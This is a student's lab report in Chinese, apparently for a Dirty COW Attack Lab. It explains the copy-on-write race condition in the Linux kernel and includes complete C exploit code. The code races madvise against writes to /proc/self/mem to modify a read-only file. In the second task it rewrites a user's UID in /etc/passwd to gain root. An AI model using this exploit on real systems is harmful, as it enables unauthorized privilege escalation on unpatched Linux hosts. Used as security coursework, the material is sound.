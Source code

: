 # Dirty COW Attack Lab

> 1120162015 李博

## Task 1: Modify a Dummy Read-Only File

### Create a Dummy File

首先创建文件`zzz`如下图，并设置权限为`644`，即只有`root`用户能进行写操作。

![task1-setup](../images/lab7-task1-setup.png)

###  原理

使用`gcc cow_attack.c -lpthread`编译源码，关键在`writeThread`和`madviseThread`这两个函数，代码如下。

```c
void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

`writeThread`函数通过`/proc/self/mem`获取进程的内存内容，并循环进行`write`操作。

`madviseThread`函数通过`madvise`函数循环将`Copy-On-Write`机制产生的复制页消除。

由于`write`函数不是原子性的，即其中包含多个步骤。

1.  通过follow_page_mask请求获取可写的内存页，发生缺页中断，接着调用faultin_page从磁盘中调入内存页。
2.  再次调用follow_page_mask请求可写内存页，由于内存页只读，故调用faultin_page进行COW操作，产生一个可写的内存页。此时FOLL_WRITE标志位消除，即请求可写标志位消除。
3.  调用follow_page_mask请求可写内存页，获取到第二步中复制的可写内存页，结束。

竞争条件漏洞在于在retry循环中，第一个进行的操作是`cond_resched`，该函数作用是主动放权，等待调度。

这就使得在上述第二步进行COW操作并消除FOLL_WRITE标志位后，能够利用条件竞争使得接下来调用`madvise`函数，将刚产生的可写内存页销毁。

那么接着调用follow_page_mask请求可写内存页时就会产生缺页中断，调用faultin_page函数，由于FOLL_WRITE标志位被消除，系统认为此时请求的是可读页，故返回只读的内存页。

最后就获得了只读的数据页进行写操作。

### Launch the Attack

结果如下图，可以看到对于普通用户只读的文件`zzz`内容被修改。

![task1-result](../images/lab7-task1-result.png)

## Task 2: Modify the Password File to Gain the Root Privilege

首先创建用户`l1b0`，如下图。

![task2-adduser](../images/lab7-task2-adduser.png)

exp如下

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "l1b0:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "l1b0:x:0000";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```

目的是将`/etc/passwd`中的`l1b0:x:1001`修改为`l1b0:x:0000`。

编译运行，结果如下图。

![task2-result](../images/lab7-task2-result.png)

可以看到用户`l1b0`拥有了root权限。